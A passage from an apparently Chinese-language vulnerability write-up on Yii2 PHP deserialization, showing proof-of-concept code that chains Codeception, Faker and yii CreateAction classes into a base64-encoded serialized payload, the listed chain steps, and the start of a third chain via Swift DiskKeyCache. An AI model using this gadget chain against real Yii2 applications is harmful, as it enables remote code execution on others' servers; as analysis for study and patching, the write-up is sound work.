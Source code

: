 ```

        public function __construct(){
            // 这里需要改为isRunning
            $this->formatters['isRunning'] = [new CreateAction(), 'run'];
        }
    }
}

namespace Codeception\Extension{
    use Faker\Generator;
    class RunProcess{
        private $processes;
        public function __construct()
        {
            $this->processes = [new Generator()];
        }
    }
}
namespace{
    // 生成poc
    echo base64_encode(serialize(new Codeception\Extension\RunProcess));
}
```

整体的利用链如下

1. Codeception\Extension\RunProcess->__destruct()->stopProcess()
2. Faker\Generator->call()->format()->call_user_func_array()
3. yii\rest\CreateAction->run()-> call_user_func()

## 漏洞复现

仍然需要添加入口点,我之前添加过,就不再演示了

直接用poc打

![image-20210804093341754](images/13.png)

# 第三条链子

## 漏洞分析

yii/vendor/swiftmailer/swiftmailer/lib/classes/Swift/KeyCache/DiskKeyCache.php

![image-20210804100143653](images/14.png)

`$this->keys`是可控的,那就可以执行到`$this->clearAll($nsKey)`调用clearAll()函数

跟进clearAll()

![image-20210804100311271](images/15.png)
